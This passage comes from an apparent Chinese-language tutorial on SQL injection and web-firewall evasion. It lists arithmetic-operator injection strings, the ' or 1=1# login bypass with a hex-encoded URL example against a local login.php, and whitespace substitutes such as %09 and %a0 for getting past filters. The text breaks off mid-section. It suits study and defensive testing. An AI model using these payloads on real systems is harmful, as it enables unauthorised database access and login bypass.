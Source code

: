 ```
ID  : '=round(0,1)='1
PASS: '=round(0,1)='1

ID  : '*0*'
PASS: '*0*'

ID  : '+'
PASS: '+'

ID  : '-'
PASS: '-'

ID  :'+1-1-'
PASS:'+1-1-' 
```

使用文本的攻击比使用括号的攻击在绕过 web 防火墙时会更有效。

```
'+(0-0)#
'=0<>((reverse(1))-(reverse(1)))#
'<(8*7)*(6*5)*(4*3)#
'&(1+1)-2#
'>(0-100)# 
```

## 0x03 绕过

让我们来看看一般的 SQL 注入攻击。

```
' or 1=1# 
```

如果被转换为 16 进制编码，将会是这样的。

```
http://127.0.0.1/login.php?id=%27%20%6f%72%20%31%3d%31%23&password=1234 
```

像上面的攻击基本都会被过滤。因此它不是好的攻击方法，我将尝试使用 tab(%09)代替空格绕过过滤器。事实上。你还可以使用%a0 代替%09

也可以使用以下的值。

```
%09
%0a
%0b
%0c
%0d
%a0
%23%0a
%23%48%65%6c%6c%6f%20%77%6f%6c%72%64%0a 
```

以下是使用％A0 代替％20 的例子。
